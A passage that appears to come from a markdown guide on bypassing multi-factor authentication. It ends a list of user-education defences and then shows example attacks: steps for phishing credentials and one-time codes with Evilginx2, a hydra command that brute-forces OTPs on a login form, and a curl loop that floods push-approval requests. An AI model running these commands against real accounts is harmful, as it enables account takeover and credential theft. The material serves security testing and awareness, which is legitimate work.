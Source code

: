5. **Educate Users**:
   - Train users to recognize phishing attempts and suspicious activity.
   - Encourage reporting of unauthorized MFA requests.

---

## 🔨 **Example Exploits**

### **1. MFA Phishing with Evilginx2**
- Clone the target login page and proxy authentication requests:
  1. Deploy Evilginx2 and configure it for the target domain.
  2. Send the victim a phishing link.
  3. Harvest credentials and OTPs in real time.

### **2. OTP Brute Forcing**
- Script a brute-force attack on a vulnerable OTP system:
  ```bash
  hydra -l victim -P otp_list.txt -s 443 -f https-post-form \
  "/login:username=^USER^&otp=^PASS^:Invalid OTP"
  ```

### **3. Exploiting Push Fatigue**
- Spam push notifications using automation tools:
  ```bash
  while true; do
      curl -X POST -d "user=victim" https://target.com/mfa/push
  done
  ```

